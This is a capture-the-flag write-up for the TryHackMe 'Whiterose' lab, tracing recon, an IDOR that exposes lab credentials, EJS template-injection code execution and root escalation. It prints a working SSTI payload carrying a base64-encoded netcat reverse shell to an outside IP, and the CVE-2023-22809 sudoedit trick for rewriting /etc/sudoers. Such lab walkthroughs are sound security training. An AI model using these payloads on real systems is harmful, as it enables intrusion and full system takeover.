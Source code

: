 TryHackMe | Whiterose

## Recon: nmap scan

![Alt text for the image](nmap.png)

## Change config file /etc/hosts

![Alt text for the image](etc.png)

## The webpage

![Alt text for the image](webpage.png)

## Brute forcing directories and other things with ffuf and feroxbuster

![Alt text for the image](fuzz.png)

![Alt text for the image](fuzz1)

## Change config file /etc/hosts

![Alt text for the image](etc1.png)


## Web access with olivas credentials we where given by the room (Olivia Cortez:olivi8)
But we can take a look at the news history. This is set to ?c=5 during the visit. The parameter c can be checked for IDOR. (http://admin.cyprusbank.thm/messages/?c=5)

With the parameter value 0 we find the credentials of an admin user Gayle Bev. (http://admin.cyprusbank.thm/messages/?c=0)

![Alt text for the image](login_page.png)

![Alt text for the image](message.png)

![Alt text for the image](message1.png)

## Web Access Gayle Bev

We use the found credentials to log in as Gayle Bev and are successful. (Gayle Bev:p~]P@5!6;rs558:q)

![Alt text for the image](gayle_login.png)

We are now able to read the telephone numbers of Tyrell Wellick.

![Alt text for the image](flag1.png)

## Shell as web
We can set the customer's passwords here. What is noticeable is that the passwords are reflected. This immediately draws attention to XSS or SSTI.

We can know this website is vulnarable to SSTI because of this error

![Alt text for the image](server.error.png)

We can find SSTI payloads here: 
  
     https://github.com/mde/ejs/issues/720
     https://eslam.io/posts/ejs-server-side-template-injection-rce/

Next, we set up a listener and us the following payload to spawn a reverse shell.

## Generate a reverse shell

![Alt text for the image](reverse_shell_gen.png)

Encode it in base64 and add it to the payload belwo

![Alt text for the image](encoding.png)
    
    name=a&passord=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo YnVzeWJveCBuYyAxMC4xNC45MC4yMzUgNDQ0NSAtZSAvYmluL2Jhc2g= | base64 -d | bash"');//

![Alt text for the image](payload.png)

We should reveice back a connection like this

![Alt text for the image](netcat_listener.png)

We receive a connection back and are the user web. In the home directory of web we find the first flag. After we have received our reverse shell, we then upgrade it. 

![Alt text for the image](flag2.png)

## Upgrading our shell: Follow the steps in the link bellow:

    https://0xffsec.com/handbook/shells/full-tty/

![Alt text for the image](upgrade.png)

![Alt text for the image](upgrade1.png)

We can go to web home directory and find the second flag

## Privilege escelation

Whe can see what commands we can use root with

 ![Alt text for the image](shell_as_root.png)

You can use sudoedit as root without a password to modify the file /etc/nginx/sites-available/admin.cyprusbank.thm.
After some reasearch we find (https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis)
CVE-2023-22809 for sudoedit

After upgrading our shell 

we use this exploit to see the hash of root

To escalate our privileges to root, we attempt to edit the /etc/sudoers file.
    
    export EDITOR="vi -- /etc/sudoers"
    sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

The first part shows you how to get the hash.

 ![Alt text for the image](hash...png)

 ![Alt text for the image](root_hash.png)


The second part, here we target the line with the command allowing us to execute that specifies the sudoedit command:
    
    web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

and replace it with the following:

    web ALL=(root) NOPASSWD: ALL  

![Alt text for the image](edit.png)

## We are root!

Now we are able to execute any command as root without providing a password and use that to switch to the root user. 

![Alt text for the image](root.png)

To get our last flag

![Alt text for the image](falg3.png)
